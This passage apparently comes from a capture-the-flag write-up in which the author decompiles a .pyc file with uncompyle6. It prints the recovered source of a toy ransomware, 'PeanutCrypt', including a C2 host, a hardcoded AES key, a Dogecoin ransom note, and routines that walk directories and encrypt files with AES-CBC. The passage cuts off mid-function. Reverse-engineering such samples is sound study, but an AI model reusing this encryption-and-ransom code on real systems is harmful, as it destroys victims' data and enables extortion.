 {% highlight bash %}
yakuhito@furry-catstation:~/ctf/unr21-ind$ python3.8 -m pip install uncompyle6
Collecting uncompyle6
[...]
Successfully installed click-8.0.0 six-1.16.0 spark-parser-1.8.9 uncompyle6-3.7.4 xdis-5.0.9
yakuhito@furry-catstation:~/ctf/unr21-ind$ uncompyle6 ./peanutcrypt.pyc 
[READ BELOW]
yakuhito@furry-catstation:~/ctf/unr21-ind$
{% endhighlight %}

{% highlight python %}
# uncompyle6 version 3.7.4
# Python bytecode 3.8 (3413)
# Decompiled from: Python 3.8.0 (default, Feb 25 2021, 22:10:10) 
# [GCC 8.4.0]
# Embedded file name: main.py
# Compiled at: 2021-05-10 17:55:50
# Size of source mod 2**32: 2826 bytes
import random, time, getpass, platform, hashlib, os, socket, sys
from Crypto.Cipher import AES
c2 = ('peanutbotnet.nuts', 31337)
super_secret_encoding_key = b'\x04NA\xedc\xabt\x8c\xe5\x11o\x143B\xea\xa2'
lets_not_do_this = True
doge_address = 'DCBk3WqNVfSSMe5kqwCFg7m6QDbjkT5nfR'
uid = 'undefined'

def write_ransom(path):
    ransom_file = open(path + '_ransom.txt', 'w')
    ransom_file.write(f"Your files have been encrypted by PeanutCrypt.\nSend 5000 DogeCoin to {doge_address} along with {uid} to recover your data")


def encrypt_reccursive(path, key, iv):
    for dirpath, dirnames, filenames in os.walk(path):
        for dirname in dirnames:
            write_ransom(dirname + '/')

    else:
        for filename in filenames:
            encrypt_file(dirpath + '/' + filename, key, iv)


def encrypt_file(path, key, iv):
    bs = AES.block_size
    cipher = AES.new(key, AES.MODE_CBC, iv)
    in_file = open(path, 'rb')
    out_file = open(path + '.enc', 'wb')
    finished = False
    while not finished:
        chunk = in_file.read(1024 * bs)
        if not len(chunk) == 0:
            if len(chunk) % bs != 0:
                padding_length = bs - len(chunk) % bs or bs
                chunk += str.encode(padding_length * chr(padding_length))
